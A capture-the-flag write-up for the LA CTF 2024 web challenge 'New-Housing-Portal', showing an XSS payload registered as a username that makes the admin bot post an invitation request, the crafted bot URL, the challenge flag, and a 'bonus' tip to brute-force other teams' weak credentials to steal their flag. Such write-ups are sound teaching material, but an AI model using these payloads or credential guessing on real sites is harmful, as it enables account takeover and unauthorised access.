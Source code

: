 ```yaml
---
title: New-Housing-Portal
date: 2024-02-18T20:05:23+02:00
description: Writeup for New-Housing-Portal [LA CTF 2024]
type: writeup
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?

## Intuition

When I register to the website I can exploit an XSS vulnerability on my username. In order to get the flag I need to get an invitation from
the admin. In order to force the admin to send me an invitation I probably have to use an SSRF vulnerability to make him use the invitation request API. 
To resume, I can use the XSS vulnerability chained with an SSRF to get the flag. The xss payload used to discover the vulnerability is the following:

```html
<img src=x onerror="alert('vulnerable')">
```

![XSS](/images/la_ctf_2024/xss.png)

## Solution

First I need to register using the following XSS payload as username:

```html
<img src=x onerror="var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/finder',true);
req.send();
function handleResponse(d) {
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/finder', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('username=brole');
};">
```

The above payload use an SSRF exploit to call the invitation request API and send an invitation to the user `brole`.
Then, I will register another account which will receive the invitation of the admin (brole in this case). The next step is to 
use the admin bot link and send him the following link which is the URL to my XSS vulnerable profile:

```http request
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=x onerror="var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/finder',true); req.send(); function handleResponse(d) {     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/finder', true);     changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');     changeReq.send('username=brole'); };">

```
The bot will visit the profile and in background it will send the invitation to the user `brole`. After that, I will receive the invitation and I can use it to get the flag.

![XSS flag](/images/la_ctf_2024/secret.png)

### BONUS

A very smart way to find the flag (but smaller chance to succeed) is to brute force a very stupid username and password and
pray. If you are lucky enough you will find the credentials used by another team that already got the admin invitation and therefore
steal their flag 😈.

### Flag

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`


